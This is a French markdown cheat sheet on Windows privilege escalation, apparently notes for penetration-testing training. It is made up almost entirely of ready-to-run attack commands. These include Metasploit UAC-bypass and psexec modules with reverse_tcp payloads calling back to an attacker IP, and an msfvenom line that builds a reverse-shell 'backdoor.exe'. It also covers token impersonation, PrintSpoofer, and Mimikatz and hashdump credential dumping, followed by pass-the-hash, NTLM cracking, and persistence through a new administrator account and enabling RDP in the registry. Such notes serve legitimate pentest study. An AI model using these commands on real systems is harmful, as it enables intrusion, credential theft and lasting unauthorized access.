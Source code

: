# 🏴‍☠️ Élévation de Privilèges Windows

[← Retour à la table des matières](../README.md)

## Énumération Initiale

### Commandes de base pour l'énumération
```cmd
# Énumérer les utilisateurs et groupes
net user
net localgroup administrators

# Rechercher des fichiers de flag Windows
dir C:\Windows\System32\*.txt /s /b

# Vérifier les privilèges dans Meterpreter
getprivs
```

## Kernel Exploits

### Local Exploit Suggester
```bash
# Dans un meterpreter actif
use post/multi/recon/local_exploit_suggester
set SESSION session_id
run
```

## Bypass UAC 

### UAC Bypass avec injection en mémoire
```bash
# Conditions : accès x64 meterpreter/shell requis
# Changer le payload en x64 pour l'injection en mémoire
use exploit/windows/local/bypassuac_injection
set SESSION session_id
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4445
run
```

### Génération du payload malveillant → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Génération avec msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=4444 -f exe > backdoor.exe
```

### Upload et exécution
```bash
# Dans le meterpreter
cd C:\\Users\\admin\\AppData\\Local\\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .

# Démarrer un handler dans un autre msfconsole
use exploit/multi/handler
```

## Impersonation de Tokens

### Vérification des privilèges
```bash
# Dans Meterpreter, vérifier les privilèges
getprivs

# Rechercher "SeImpersonatePrivilege" 
# Si présent, possibilité de getsystem
getsystem
```

### Module Incognito
```bash
# Charger le module incognito dans Meterpreter
load incognito

# Lister les tokens disponibles
list_tokens -u

# Impersonifier un token spécifique
impersonate_token "DOMAIN\\USERNAME"

# Migrer vers un processus après impersonation
migrate PID
```

## PrintSpoofer (Élévation locale)
```bash
# Utiliser PrintSpoofer64.exe pour obtenir SYSTEM
# Upload de l'utilitaire sur la cible
upload /path/to/PrintSpoofer64.exe

# Exécution pour élévation
shell
PrintSpoofer64.exe -i -c cmd
```

## Dumping de Hash avec Mimikatz

### Module Kiwi (Mimikatz intégré)
```bash
# Dans Meterpreter, charger kiwi
load kiwi

# Récupérer les hash NTLM
creds_all

# Dumper les hash SAM
lsa_dump_sam

# Dumper les secrets LSA
lsa_dump_secrets
```

### Dumping manuel avec hashdump
```bash
# Migration vers le processus lsass
migrate -N lsass.exe

# Dump des hash
hashdump
```

## Authentification avec Hash NTLM

### PSExec avec hash NTLM
```bash
# Module PSExec dans Metasploit
use exploit/windows/smb/psexec
set RHOSTS target_ip
set SMBUser username
set SMBPass ntlm_hash_here
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your_ip
run
```

### Impacket PSExec
```bash
# Utilisation d'Impacket en ligne de commande
python3 /usr/share/doc/python3-impacket/examples/psexec.py Username@ip
# Ou avec hash NTLM
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :ntlm_hash Username@ip
```

## Cracking de Hash NTLM

### Avec Metasploit
```bash
# Module de cracking intégré
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
# Ajouter les hash récupérés
run
```

### Avec Hashcat
```bash
# Cracker des hash NTLM (mode 1000)
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

# Afficher les résultats
hashcat -m 1000 hashes.txt --show
```

## Persistance

### Accès RDP persistant
```bash
# Dans Meterpreter, créer un utilisateur RDP
run getgui -e -u alice -p hack_123321

# Vérifier que RDP est activé
run getgui -e
```

### Création d'utilisateur administrateur
```cmd
# Créer un nouvel utilisateur
net user hacker password123 /add

# Ajouter aux administrateurs
net localgroup administrators hacker /add

# Activer RDP si nécessaire
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Upgrade de Session

### Shell vers Meterpreter
```bash
# Dans Metasploit, upgrade une session shell vers meterpreter
sessions -u session_id
```

## Ressources Utiles

- [LOLBAS](https://lolbas-project.github.io/) - Living Off The Land Binaries
- [GTFOBins](https://gtfobins.github.io/) - Unix Binaries
- [Reverse Shells](https://revshells.com/) - Générateur de reverse shells
